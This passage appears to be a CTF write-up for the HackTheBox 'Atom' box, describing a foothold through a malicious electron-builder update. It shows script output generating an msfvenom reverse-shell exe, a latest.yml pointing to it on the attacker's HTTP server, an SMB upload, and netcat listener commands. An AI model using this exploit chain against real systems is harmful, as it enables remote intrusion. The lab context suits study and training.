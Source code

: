 You can read about the way I built the code at [[25 - Automate Foothold]], or you can read on for the final payload.

## Final Payload

Automating the foothold allowed me to easily change my YAML structure and re-send the payload. This exposed a lot of frustrating things about the box.

Firstly, the box was very temperamental about whether or not it would request my file. It would often not 'consume' my `latest.yml` file - I maximised my chances by putting it to each of the three client folders.

The other frustration was that I eventually found the correct YAML syntax - but for a reason I am still unsure about, the filename I was using didn't trigger the execution of the exe.

To fix it, I spent a lot of time verifying each step, such as checking the SHA sum. I eventually had to compare my YAML to a friend's who had completed the box. He had the exact same syntax (and sequence of commands) but with a shorter filename. Changing my filename to match his gave me a shell. Read on for the details.

### Testing

In my testing I returned to the simplest payload so far that got a hit (the second payload in [[20 - Exploiting Electron Builder#Debugging YAML Syntax]]). I simplified both the msfvenom payload and filename - you can see it in my script below:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py --lint tun0 --dir to-serve 10.10.10.237
IP Address on interface tun0: 10.10.14.39
Make sure to start required listeners before continuing.
Run a netcat listener to catch your shell: nc -lnvp 9001
Run a Python Server to serve your shell in to-serve/: sudo python3 -m http.server 80
Press enter to continue once you've started your listeners...


=== Generating Payload ===

No --msf_payload or --payload flag provided. Using default windows/shell_reverse_tcp payload and generating with msfvenom
Running command: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=9001 -f exe -o "to-serve/heed'Setup.exe"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: to-serve/heed'Setup.exe
Payload saved at: to-serve/heed'Setup.exe
Size: 73802
Base64-encoded SHA512-sum of payload: cC8htx18FMTlElNrNPuRrwu+ars1Cs05Qxg3HzXysT2Sr3iUAcmns/Gmw6llUC6lArTjXdygtNp7665Vh//0dA==

=== Generating YAML File ===

version: 2.0.9
path: http://10.10.14.39/heed'Setup.exe
sha512: cC8htx18FMTlElNrNPuRrwu+ars1Cs05Qxg3HzXysT2Sr3iUAcmns/Gmw6llUC6lArTjXdygtNp7665Vh//0dA==

YAML saved at to-serve/latest.yml

=== Uploading to SMB ===

Bytes uploaded to client1: 151
Bytes uploaded to client2: 0
Bytes uploaded to client3: 0
```